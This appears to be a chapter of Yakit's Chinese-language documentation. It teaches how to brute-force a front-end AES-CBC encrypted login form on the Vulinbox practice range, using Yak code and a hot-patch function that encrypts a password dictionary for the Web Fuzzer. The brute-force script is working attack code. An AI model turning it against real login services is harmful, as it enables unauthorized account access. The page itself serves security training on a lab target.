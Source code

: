 ```yaml
---
sidebar_position: 19
---
```


# 十、热加载场景案例：爆破aes cbc加密
这篇文章我们将会介绍另一个热加载的实际应用案例：爆破aes cbc加密。我们以 yakit 官方的 Vulinbox靶场为例。

首先我们需要安全并启动 Vulinbox 靶场，打开 yakit ，点击**试验性功能 - (靶场)Vulinbox**：

![](/img/products/yakit/Fuzz-hotpatch-example2/1.png)

打开**Vulinbox 管理器**页面后，点击右上角的安装靶场：

![](/img/products/yakit/Fuzz-hotpatch-example2/2.png)

安装成功后，我们关闭**Vulinbox 管理器**页面后重新打开，看到已经提示安装成功的提示，我们点击启动靶场：

![](/img/products/yakit/Fuzz-hotpatch-example2/3.png)

在启动靶场中设置参数，我们默认即可，点击**启动靶场**按钮：

![](/img/products/yakit/Fuzz-hotpatch-example2/4.png)

等待下方页面输出`VULINBOX RUNNING IN：`的提示，说明靶场启动成功：

![](/img/products/yakit/Fuzz-hotpatch-example2/5.png)

接着我们手动访问该URL，打开靶场页面，找到`CryptoJS.AES(CBC) 前端加密登陆表单`：

![](/img/products/yakit/Fuzz-hotpatch-example2/6.png)

靶场页面如下所示：

![](/img/products/yakit/Fuzz-hotpatch-example2/7.png)

首先我们需要了解这个靶场，这个靶场的目的是要对用户和密码进行爆破，直到找到正确的用户名和密码。而用户名和密码是经过json序列化之后AES CBC的方式进行加密的，所以我们需要先对加密的过程进行分析。

为了完成这个靶场，我们需要了解一下AES算法。
> AES（Advanced Encryption Standard，高级加密标准）是一种对称加密算法，也就是说加密和解密使用相同的密钥。这是一种块加密算法，它以固定大小（128位，即16字节）的块来处理数据。
> 
> CBC（Cipher Block Chaining，密码块链）是AES中常用的一种工作模式。在CBC模式中，每个明文块在加密之前，都会与前一个密文块进行XOR（异或）操作，然后再进行加密。对于第一个明文块，因为前面没有密文块，所以会与一个初始化向量（IV）进行XOR操作。

查看源码，我们可以看到加密的过程如下：
```html
<script>
    var iv = CryptoJS.lib.WordArray.random(128/8);
    function generateKey() {
        return  CryptoJS.enc.Utf8.parse("1234123412341234")  // 十六位十六进制数作为密钥
    }
    const key = generateKey()
    // 解密方法
    function Decrypt(word) {
        return  CryptoJS.AES.decrypt(word, key, {iv: iv}).toString(); 
    }
    // 加密方法
    function Encrypt(word) {
        console.info(word);
        return  CryptoJS.AES.encrypt(word, key, {iv: iv}).toString(); 
    }
    function getData() {
        return {
            "username": document.getElementById("username").value,
            "password": document.getElementById("password").value,
        }
    }
    function outputObj(jsonData) {
        const word = JSON.stringify(jsonData);
        return {
            "data": Encrypt(word),
            "key": key.toString(),
            iv: iv.toString(),
        }
    }
    function submitJSON(event) {
        event.preventDefault();
        const url = "/crypto/js/lib/aes/cbc/handler";
        let jsonData = getData();
        let submitResult = JSON.stringify(outputObj(jsonData), null, 2)
        console.log("key", key)
        fetch(url, {
            method: "POST",
            headers: {
                "Content-Type": "application/json"
            },
            body: submitResult,
        })
            .then(response => response.text())
            .then(data => {
                console.log("Success:", data);
                document.body.innerHTML = data;
            })
            .catch((error) => {
                console.error("Error:", error);
            });
    }
    document.getElementById("json-form").addEventListener("change", () => {
        let jsonData = {
            "username": document.getElementById("username").value,
            "password": document.getElementById("password").value,
        };
        document.getElementById("encrypt").innerHTML = JSON.stringify(outputObj(jsonData), null, 2)
        document.getElementById("input").innerHTML = JSON.stringify(jsonData, null, 2)
    })
    document.getElementById("json-form").addEventListener("submit", submitJSON)
</script>
```
当我们点击**Submit**按钮时，执行逻辑如下：
1. 调用getData函数获取用户在表单中填写的用户名和密码。
2. 调用outputObj函数，将获取到的数据进行AES CBC加密，并将加密后的数据、密钥和初始化向量（iv）一起封装成一个对象。
3. 将这个对象转换为JSON字符串，准备发送到服务器。
4. 使用fetch API向`/crypto/js/lib/aes/cbc/handler`这个后端接口发送一个POST请求，请求的body就是刚才生成的JSON字符串。

另外我们还需要了解一下iv和key的格式，实际上如果对CryptoJS这个库有了解的师傅应该知道，通过调用`CryptoJS.lib.WordArray.random`(iv的生成方式)和`CryptoJS.enc.Utf8.parse`(key的生成方式)生成的iv和key，通过调用`toString()`方法得到的字符串是经过hex过的。我们也可以通过在浏览器控制台中手动调用`iv.toString()`和`key.toString()`的方式或者查看[CryptoJS官方文档](https://cryptojs.gitbook.io/docs/)来了解。

在这之后我们使用yakit的 MITM 模块拦截真正的登录请求，来查看实际发送的数据，并思考如何使用热加载来实现爆破：
![](/img/products/yakit/Fuzz-hotpatch-example2/8.png)

接下来我们需要用 Yak 代码实现这个AES CBC加密，我们知道iv和key是固定的，所以我们可以先使用`codec.DecodeHex(data)`来把十六进制的字符串还原为原始的byte。
```go
// 这里我们使用了wavy call这个语法，即在调用时添加一个~符号，这个符号可以自动处理这个函数返回值中的错误
// 目前自动处理的行为是，如果这个函数结尾有错误，那么自动中断程序执行，抛出错误提示
// 其相当于自动调用die(err)
key = codec.DecodeHex("31323334313233343132333431323334")~
// 需要将iv改为你抓包到post参数的iv值
iv = codec.DecodeHex("03395d68979ed8632646813f4c0bbdb3")~
```

然后我们手动拼接需要使用的用户名和密码，将其转换为JSON字符串：
```go
username = "qwe"
password = "asd"
m = {"username": username, "password": password}
jsonInput = json.dumps(m)
```

另外，通过查询[CryptoJS官方文档](https://cryptojs.gitbook.io/docs/#block-modes-and-padding)知道，如果使用`CryptoJS.AES.encrypt()`进行加密，默认使用的是AES CBC加密方式，默认采用Pkcs7 padding。

在 Yak 代码中，我们也可以使用`codec.AESCBCEncryptWithPKCS7Padding(key, data, iv)`：
```go
result = codec.AESCBCEncryptWithPKCS7Padding(key, jsonInput, iv)~
base64Result = codec.EncodeBase64(result)
printf("%s", base64Result)
```

最终的代码如下，我们可以将结果输出来查看结果是否正确，需要注意的是，结果可能与抓包页面中post参数的data值不一样，这实际上是因为在 Yak 代码中map是无序的：
```go
key = codec.DecodeHex("31323334313233343132333431323334")~
iv = codec.DecodeHex("03395d68979ed8632646813f4c0bbdb3")~
username = "qwe"
password = "asd"
m = {"username": username, "password": password}
jsonInput = json.dumps(m)
result = codec.AESCBCEncryptWithPKCS7Padding(key, jsonInput, iv)~
base64Result = codec.EncodeBase64(result)
printf("%s", base64Result) // SUfWboJqpPH3p7I56a3Qn2NDJAtW2/Eq3HFSaLYltgHlKCq3AU/Q038zubFGX/3S
```

我们也可以将结果在浏览器控制台中调用`Decrypt("SUfWboJqpPH3p7I56a3Qn2NDJAtW2/Eq3HFSaLYltgHlKCq3AU/Q038zubFGX/3S")`来查看（`Decrypt`函数的返回值是十六进制字符串），发现可以正确解密，证明我们加密成功。

最后一步，我们编写一个真正可用的热加载函数，来对用户名和密码进行爆破，为了方便，我们将用户名固定为`["admin"]`。
```go
handle = func(p) {
    key = codec.DecodeHex("31323334313233343132333431323334")~
    iv = codec.DecodeHex("03395d68979ed8632646813f4c0bbdb3")~
    usernameDict = ["admin"]
    // passwordDict = x"{{x(pass_top25)}}" // 我们可以使用x前缀字符串来通过fuzztag语法获取pass_top25字典中的值
    passwordDict = ["admin", "123456", "admin123", "88888888", "666666"] // 也可以直接使用手写的list
    resultList = []
    for username in usernameDict {
        for password in passwordDict {
            m = {"username": username, "password": password}
            jsonInput = json.dumps(m)
            result = codec.AESCBCEncryptWithPKCS7Padding(key, jsonInput, iv)~
            base64Result = codec.EncodeBase64(result)
            resultList.Append(base64Result)
        }
    }
    return resultList
}
```

将data参数设置为`{{yak(handle)}}`，点击**发送请求**按钮，可以看到我们成功爆破出用户名和密码：
![](/img/products/yakit/Fuzz-hotpatch-example2/9.png)

实际上，靶场每次启动时爆破成功的密码是随机的，所以师傅们在复现时遇到可能会遇到与图中不同的情况。

感谢看到最后的师傅，至此我们已经对 Web Fuzzer 的所有高级(复杂)用法进行了系统性的讲解。
